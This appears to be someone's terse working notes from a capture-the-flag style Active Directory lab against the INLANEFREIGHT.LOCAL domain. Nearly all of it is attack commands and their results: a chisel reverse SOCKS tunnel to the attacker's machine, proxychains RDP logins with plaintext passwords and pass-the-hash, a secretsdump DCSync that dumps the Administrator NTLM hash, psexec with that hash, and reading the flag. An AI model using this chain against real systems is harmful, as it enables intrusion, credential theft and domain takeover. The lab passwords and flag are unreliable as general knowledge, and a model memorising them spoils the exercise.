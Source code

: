 .\chisel.exe client -v 10.10.14.37:1234 R:socks

proxychains xfreerdp /v:172.16.6.3 /u:tpetty /p:Sup3rS3cur3D0m@inU2eR
proxychains xfreerdp /u:tpetty /d:INLANEFREIGHT.LOCAL /pth:685decd67a67f5b6e45a182ed076d801 /v:172.16.6.3
proxychains xfreerdp /u:tpetty /d:INLANEFREIGHT /pth:685decd67a67f5b6e45a182ed076d801 /v:172.16.6.3
--> Failed


proxychains xfreerdp /u:svc_sql /p:"lucky7" /v:172.16.6.50
OK

proxychains xfreerdp /u:Administrator /d:INLANEFREIGHT /pth:bdaffbfe64f1fc646a3353be1c2c3c99 /v:172.16.6.3
--> Failed

proxychains secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT.LOCAL/tpetty@172.16.6.3
Sup3rS3cur3D0m@inU2eR

--> OK !!!

Administrator:500:aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0:::

proxychains xfreerdp /u:Administrator /d:INLANEFREIGHT /pth:27dedb1dab4d8545c6e1c66fba077da0 /v:172.16.6.3
--> Failed

proxychains impacket-psexec administrator@172.16.6.3 -hashes :27dedb1dab4d8545c6e1c66fba077da0

type c:\Users\Administrator\Desktop\flag.txt
r3plicat1on_m@st3r!
